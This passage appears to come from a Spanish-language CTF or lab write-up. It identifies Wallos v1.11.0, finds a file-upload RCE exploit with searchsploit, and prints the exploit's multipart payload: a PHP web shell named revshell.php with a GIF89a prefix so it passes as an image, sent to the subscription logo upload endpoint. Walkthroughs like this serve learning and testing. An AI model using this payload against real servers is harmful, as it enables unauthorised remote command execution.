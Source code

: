```bash
## Acerca de y Créditos

Wallos v1.11.0
Licencia: GPLv3[](https://www.gnu.org/licenses/gpl-3.0.en.html "Visitar URL Externa")
Problemas y Solicitudes: GitHub[](https://github.com/ellite/Wallos/issues "Visitar URL Externa")
El autor: https://henrique.pt[](https://henrique.pt/ "Visitar URL Externa")
Iconos: https://www.streamlinehq.com/freebies/plump-flat-free[](https://www.streamlinehq.com/freebies/plump-flat-free "Visitar URL Externa")
Iconos de Pago: https://www.figma.com/file/5IMW8JfoXfB5GRlPNdTyeg/Credit-Cards-and-Payment-Methods-Icons-(Community)[](https://www.figma.com/file/5IMW8JfoXfB5GRlPNdTyeg/Credit-Cards-and-Payment-Methods-Icons-\(Community\) "Visitar URL Externa")
Chart.js: https://www.chartjs.org/[](https://www.chartjs.org/ "Visitar URL Externa")
```
---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que tenemos la version, Buscamos por un exploit:
```bash
searchsploit wallos 1.11.0
```

Tenemos el siguiente resultado:
```bash
 Exploit Title  |  Path
-----------------------------------------
Wallos < 1.11.2 - File Upload RCE    | php/webapps/51924.txt
```

Si revisamos el contendio del exploit para ver como es que funciona:
Vemos que el exploit Wallos te permite subir una imagen o logotipo al crear una nueva suscripción. Esto se puede omitir para subir un archivo .php malicioso.
Revisando el script vemos que el punto vulnerable es al cargar un **logotipo** ahi inyectaremos un archvio malicioso basado en los **magicNumber** para que pase como si de una imagen legitima se tratase
Explicacion de lo que tenemo que hacer para derivar a un **RCE**
```bash
searchsploit -x php/webapps/51924.txt

-----------------------------29251442139477260933920738324
Content-Disposition: form-data; name="logo"; filename="revshell.php"
Content-Type: image/jpeg
GIF89a;

<?php
system($_GET['cmd']);
?>
```

En este fragmento nos indica que tenemos que envenear de esta manera la parte del **logo** en la peticion que previamente ya teniamos capturada con burpsuite
```bash
POST /endpoints/subscription/add.php HTTP/1.1
```
